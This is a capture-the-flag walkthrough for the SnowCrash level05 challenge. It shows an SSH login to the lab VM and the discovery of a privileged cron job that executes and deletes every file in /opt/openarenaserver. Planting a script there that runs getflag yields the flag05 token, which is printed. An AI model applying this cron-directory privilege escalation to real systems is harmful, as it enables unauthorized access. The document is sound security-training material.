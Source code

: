 # Step 1
-   We log to the VM with ssh as `level05` user.

    ```bash
    ssh level05@10.27.26.127 -p 4242
    ```

    `You have new mail.`

    `level05@SnowCrash:~$`

-   We explore the path to locate email and we find the `$MAIL` variable in the env.

    `MAIL=/var/mail/level05`

    content of the file above

    `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

-   This is a cron job that runs every 2 minutes and executes the `openarenaserver` script as `flag05` user.

    We add this job to our crontab

    ```bash
    crontab -e
    ```


# Step 2

We analyze the `/usr/sbin/openarenaserver` script.

content of the script: 
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

It loops through all files in `/opt/openarenaserver/` and executes them with a 5 seconds timeout. So we can create a file in this directory and it will be executed.

# Step 3

We create a script in `/opt/openarenaserver/` that will run the `getflag` command and write the output to a file in `/tmp/`.

```bash
echo '#!/bin/sh' > /opt/openarenaserver/flag.sh
echo "getflag > /tmp/flag" >> /opt/openarenaserver/flag.sh
```

### Result
    
```bash
level05@SnowCrash:~$ cat /tmp/flag
```

`Check flag.Here is your token : viuaaale9huek52boumoomioc`

No password needed for `flag05` user.
